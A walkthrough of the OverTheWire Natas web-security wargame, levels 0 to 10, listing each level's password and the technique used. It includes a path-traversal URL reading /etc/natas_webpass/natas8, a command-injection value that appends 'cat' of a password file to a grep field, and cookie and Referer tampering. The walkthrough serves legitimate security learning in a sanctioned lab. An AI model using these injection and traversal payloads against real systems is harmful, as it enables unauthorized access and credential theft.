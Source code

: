 # Natas

The game can be found [here](https://overthewire.org/wargames/natas/)

### 01. Level 0 -> 1

* Click [here](http://natas0.natas.labs.overthewire.org) to login
* Username: natas0
* Password: natas0
* Use browser inspection tool to see the next level's password

### 02. Level 1 -> 2

* Click [here](http://natas1.natas.labs.overthewire.org) to login
* Username: natas1
* Password: gtVrDuiDfck831PqWsLEZy5gyDz1clto
* Use browser inspection tool to see the next level's password

### 03. Level 2 -> 3

* Click [here](http://natas2.natas.labs.overthewire.org) to login
* Username: natas2
* Password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
* Inspecting the page, there is a url `files/pixel.png`
* Check the [files](http://natas2.natas.labs.overthewire.org/files/) directory, there is a file named [users.txt](http://natas2.natas.labs.overthewire.org/files/users.txt). The password of next level in in there.

### 04. Level 3 -> 4

* Click [here](http://natas3.natas.labs.overthewire.org) to login
* Username: natas3
* Password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
* When inspecting the page, we see:
```html
  <!--No more information leaks!! Not even Google will find it this time...-->
```
* Check the [robots.txt](http://natas3.natas.labs.overthewire.org/robots.txt) file. We see:
```html
User-agent: *
Disallow: /s3cr3t/
```
* Check the directory [s3cr3t](http://natas3.natas.labs.overthewire.org/s3cr3t/), there is a file named [users.txt](http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt).

### 05. Level 4 -> 5

* Click [here](http://natas4.natas.labs.overthewire.org) to login
* Username: natas4
* Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
* Inspect the page, and see the message:
```
Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```
* Navigate to the [natas5](http://natas5.natas.labs.overthewire.org) page and then close the authentication box.
* Inspect the natas5 page, and add an `<a>` element as follow to change the `Referer` in the HTTP header:
```html
<a href="http://natas4.natas.labs.overthewire.org">natas4</a>
```
* Click the created link to see the next password

### 06. Level 5 -> 6

* Click [here](http://natas5.natas.labs.overthewire.org) to login
* Username: natas5
* Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
* After logging in:
```
Access disallowed. You are not logged in
```
* Examine the cookie, we see a flag `loggedin` which is set to `0`. Let's just change that flag to `1` and then refesh the page.

### 07. Level 6 -> 7

* Click [here](http://natas6.natas.labs.overthewire.org) to login
* Username: natas6
* Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
* See the provided source code, there is a file `includes/secret.inc` included.
* Check that [secret.inc](http://natas6.natas.labs.overthewire.org/includes/secret.inc) file, we find the secret key.
```html
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

### 08. Level 7 -> 8

* Click [here](http://natas7.natas.labs.overthewire.org) to login
* Username: natas7
* Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
* Inspect the [homepage](http://natas7.natas.labs.overthewire.org/index.php?page=home), we see:
```html
<!--  hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
* Use LFI vulnerability to get the next password
* Click [here](http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8)

### 09. Level 8 -> 9

* Click [here](http://natas8.natas.labs.overthewire.org) to login
* Username: natas8
* Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
* Check the [index-source](http://natas8.natas.labs.overthewire.org/index-source.html), we have:
```php
<?
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
* In the terminal, we decode the encoded secret key as below:
```shell
$ php7.3 -r 'echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));'
oubWYf2kBq
```
* Submit the decoded secret to get the next password

### 10. Level 9 -> 10

* Click [here](http://natas9.natas.labs.overthewire.org) to login
* Username: natas9
* Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
* Take a look at [index-source] file, we have:
```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```
* We can inject shell code below to the form get the next password:
```
needle; cat /etc/natas_webpass/natas10 #
```

### 11. Level 10 -> 11

* Click [here](http://natas10.natas.labs.overthewire.org) to login
* Username: natas10
* Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
